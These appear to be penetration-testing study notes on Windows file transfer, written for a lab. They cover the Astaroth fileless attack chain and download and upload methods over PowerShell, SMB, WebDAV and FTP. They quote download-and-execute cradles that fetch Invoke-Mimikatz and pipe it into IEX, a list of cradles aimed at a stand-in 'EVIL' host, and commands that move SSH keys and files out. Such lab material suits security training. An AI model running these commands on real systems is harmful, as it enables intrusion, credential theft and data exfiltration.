


Overview
The Windows operating system has evolved significantly, with new versions introducing various utilities for file transfer operations. Understanding file transfer mechanisms in Windows is crucial for both attackers and defenders:
-
Attackers: Leverage file transfer methods to operate stealthily and evade detection.
-
Defenders: Learn how these methods work to monitor and enforce policies that prevent attacks.
To illustrate, we will examine the Microsoft Astaroth Attack, a documented advanced persistent threat (APT) example.
Fileless Threats and File Transfer
The Astaroth attack demonstrates how attackers utilize fileless techniques to execute their operations. Despite the name, fileless threats often involve file transfer operations, though the files themselves are not stored on disk but executed in memory.
What Are Fileless Threats?
- Fileless threats leverage legitimate tools and processes already present on a system to carry out attacks.
- These threats do not leave traditional files behind, making detection more challenging.
Breakdown of the Astaroth Attack
-
Initial Infection via Spear-Phishing
- A malicious link embedded in a spear-phishing email leads to the download of an LNK file.
- The user clicks the LNK file, triggering execution.
-
Abuse of WMIC Tool
- The WMIC tool (Windows Management Instrumentation Command-line) is executed with the "/Format" parameter.
- This parameter is abused to download and execute malicious JavaScript code.
-
File Transfer via Bitsadmin
- The malicious JavaScript code downloads additional payloads using the Bitsadmin tool, a legitimate utility for background file transfers.
-
Decoding Payloads with Certutil
- Downloaded payloads are Base64-encoded.
- The Certutil tool is used to decode these payloads into their original form, resulting in multiple DLL files.
-
Execution with regsvr32
-
One of the decoded DLLs is loaded using the regsvr32 tool.
-
This DLL decrypts and loads additional files until the final payload is ready.
-
-
Final Payload Injection
- The final payload, Astaroth, is injected into the Userinit process, allowing the attacker to persist and execute their malicious operations stealthily.
Visual Representation of the Astaroth Attack
Below is a high-level graphical depiction of the attack:
-
Spear-phishing email ➔ LNK file.
-
Execution of WMIC with /Format parameter.
-
JavaScript downloads payloads using Bitsadmin.
-
Certutil decodes Base64 payloads into DLL files.
-
regsvr32 loads DLLs, decrypting and loading additional files.
-
Final payload (Astaroth) is injected into the Userinit process.
Understanding such attacks allows defenders to:
-
Detect unusual activity from legitimate tools (e.g., WMIC, Certutil, regsvr32).
-
Monitor file transfer methods and create preventive policies.
Attackers continue to innovate, but knowledge of their methods ensures defenders can remain vigilant and respond effectively.

Download Operations
We have access to the machine MS02 and we need to download a file from Pwnbox machine. let's see how we can accomplish this using multiple File Download methos.
PowerShell Based64 Encode & Decode
Purpose: to transfer files without requiring network communication, particulary in situations where only terminal access is availble.
Steps Overview
-
Base64 Econding and Decoding
- Use terminal commands to encode a file into a base64 string.
- Copy the cocoded string from the source terminal.
- Decode the base64 string back into the original file on the target system.
-
Ensuring File Integrity:
- Verfiy that the transferred file is correct by comparing its MD5 checksum.
- Use
md5sum(or equivalent tools) to calculate the compare MD5 hash before and after the transfer.
Detailed Process: 1. Encoding a File to Base64 (Source System): In PowerShell:
OR in linux- Transfer Base64 String:
- Open the encoded file (encoded.txt) in the terminal.
- Copy its contents manually to the target system's terminal.
- Decoding the File on the Target System: In PowerShell: OR linux
-
Verify File Integrity
- On both systems, generate the MD5 hash of the original and decoded file.
Use Case Example:
- Transferring an SSH key:
- Encode the key on the source system.
- Copy the base64 string to the target system.
- Decode the string back into the original SSH key file.
- Verify the integrity using the MD5 checksum.
Advantages:
- No need for network connectivity.
- Useful for secure environments with restricted communication channels.
Considerations: - Ensure proper copying and pasting of the base64 string to avoid corruption. - MD5 is not cryptographically secure for authentication purposes but is adequate for verifying file integrity.
Pwnbox Check SSH Key MD5 Hash
```bash
md5sum id_rsa
```
output:
```4e301756a07ded0a2dd6953abf015278 id_rsa```
Pwnbox Encode SSH Key to Base64
```bash
cat id_rsa |base64 -w 0;echo
LS0tLS1CRUdJT.....
```
We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVO..."))
Finally, we can confirm if the file was transferred successfully using the Get-FileHash cmdlet, which does the same thing that md5sum does.
Confirming the MD5 Hashes Match
Note: While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.
Notes on File Transfer Using PowerShell and WebClient
Most companies allow HTTP and HTTPS outbound traffic through the firewall to facilitate employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. However, defenders can implement Web filtering solutions to:
- Prevent access to specific website categories.
- Block the download of certain file types (e.g.,
.exe). - Restrict access to a whitelist of domains in highly controlled networks.
File Transfer with PowerShell
PowerShell offers various file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download files over HTTP, HTTPS, or FTP.
WebClient Methods for Downloading Data
| Method | Description |
|---|---|
OpenRead |
Returns the data from a resource as a Stream. |
OpenReadAsync |
Returns the data from a resource without blocking the calling thread. |
DownloadData |
Downloads data from a resource and returns a Byte array. |
DownloadDataAsync |
Downloads data from a resource as a Byte array without blocking the calling thread. |
DownloadFile |
Downloads data from a resource to a local file. |
DownloadFileAsync |
Downloads data to a local file without blocking the calling thread. |
DownloadString |
Downloads a String from a resource and returns a String. |
DownloadStringAsync |
Downloads a String without blocking the calling thread. |
Example: PowerShell DownloadFile Method
The Net.WebClient class and its DownloadFile method allow you to specify:
- The URL of the target file to download.
- The name of the output file where the content will be saved.
Example usage:
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("https://example.com/file.txt", "C:\path\to\output\file.txt")
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
PowerShell DownloadString-Fileless Method
AS we previously discussed, fileless attacks work by using some operating system functions to downlod the payload and exccute it directly. Powershell can also be used to perfom fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in the memory using the Invoke-Expression cmdlet or the alias IEX.
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Empire/master/data/module/source/credentials/Invoke-Mimikatz.ps1')
IEX aslo accepts pipeline input.
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
PowerShell Invoke-WebRequest
From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their nuances, such as a lack of proxy awareness or touching disk (downloading a file onto the target) to select the appropriate one for the situation.
List of commands by HarmJ0y
https://gist.github.com/HarmJ0y/bb48307ffa663256e239
# normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')
# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
# Msxml2.XMLHTTP COM object
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
# WinHttp COM object (not proxy aware!)
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
# using bitstransfer- touches disk!
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r
# DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
# code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
# from @subtee - https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d
<#
<?xml version="1.0"?>
<command>
<a>
<execute>Get-Process</execute>
</a>
</command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
SMB Downloads
The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where windows services are running. It enables applications and users to transfer files to and from remote servers.
WE can use SMB to download files from our pwnbox easily. We need to create an SMB server in our pwnbox with smbserver.py from impacket and then use copy, move,PowerShell Copy-Item, or any other tool that allows connection to SMB
Create the sMB Server
To download a file from the SMB server to the current working directory, we can use the following command:Copy a File from the SMB Server
New versions of Windows block unauthenticated guest access, as we can see in the following command: Error: You can't access this share folder because your organization's security policies block unauthenticaed guest access. ....To transfer files in this scenario we can set a username and password using out Impacket SMB server and mount the SMB server on our windows target machine:
Create the SMB Server with a Username and Password
Mount the SMB Server with Username and Password
net use n: \\<ip>\share /user:test test
#The command completed successfully
C:\htb> copy n:\nc.exe
# 1 fiel(s) copied.
PowerShell Base64 Web Upload
This method demonstrates how PowerShell can be used to encode a file in Base64 and upload it to a server using Invoke-WebRequest. The payload is transmitted as a POST request to a specified URI, and the data is then caught using Netcat. Afterward, the data is decoded back to its original form.
Step 1: Encoding the File in Base64
First, we convert the contents of a file (hosts file in this case) into Base64:
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\\Windows\\System32\\drivers\\etc\\hosts' -Encoding Byte))
This command reads the hosts file as raw bytes and then converts it into a Base64 string.
Step 2: Uploading the Encoded File via HTTP
Next, we use Invoke-WebRequest to upload the Base64 encoded file to a remote server. The server is assumed to be listening on port 8000:
Here, we send the encoded file as a POST request with the Base64 string as the body.
Step 3: Catching the Data with Netcat
On the receiving server (listening on port 8000), we use Netcat to catch the incoming Base64 data:
Netcat listens for connections and displays the incoming data. The Base64-encoded content appears in the console.
Step 4: Decoding the File
After receiving the Base64-encoded data, we decode it back to its original file using the base64 tool:
This command takes the Base64 data, decodes it, and writes it back to a file (hosts).
SMB Uploads via WebDAV
The next section discusses using SMB over HTTP with WebDAV. Many organizations restrict SMB traffic (TCP/445) due to security concerns, but WebDAV provides a workaround by running SMB over HTTP (TCP/80). This method is commonly used for file sharing and remote access.
Setting Up WebDAV Server
To set up a WebDAV server, we install the necessary Python modules:
Then, we run the WebDAV server:
This command runs the WebDAV server on port 80, serving files from /tmp with anonymous authentication.
Connecting to the WebDAV Share
Once the WebDAV server is set up, we can access it from a Windows machine using the DavWWWRoot folder:
This command lists the files available on the WebDAV server.
Uploading Files via WebDAV
To upload a file (e.g., SourceCode.zip) to the WebDAV share, we use the copy command:
This uploads the specified file to the WebDAV share, allowing for easy file transfer over HTTP.
FTP Uploads
FTP (File Transfer Protocol) is another method for uploading files. In this section, we discuss how to set up an FTP server using Python's pyftpdlib module and how to use PowerShell or command line tools to upload files to it.
Setting Up the FTP Server
We start the FTP server with the --write flag to allow uploading:
This starts the FTP server on port 21, with write permissions for anonymous users.
Uploading Files via PowerShell
Using PowerShell, we can upload a file to the FTP server with the following command:
(New-Object Net.WebClient).UploadFile('<ftp://192.168.49.128/ftp-hosts>', 'C:\\Windows\\System32\\drivers\\etc\\hosts')
This command uploads the hosts file to the specified FTP server.
Creating an FTP Command File
Alternatively, you can create an FTP command file (ftpcommand.txt) to automate the file upload process:
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\\windows\\system32\\drivers\\etc\\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
This script automates logging in, setting the transfer mode to binary, uploading the file, and closing the connection.
Recap
This section highlighted multiple methods to upload files using native tools such as PowerShell, FTP, and WebDAV. Each method allows file transfer under different network configurations, offering flexibility in various penetration testing scenarios.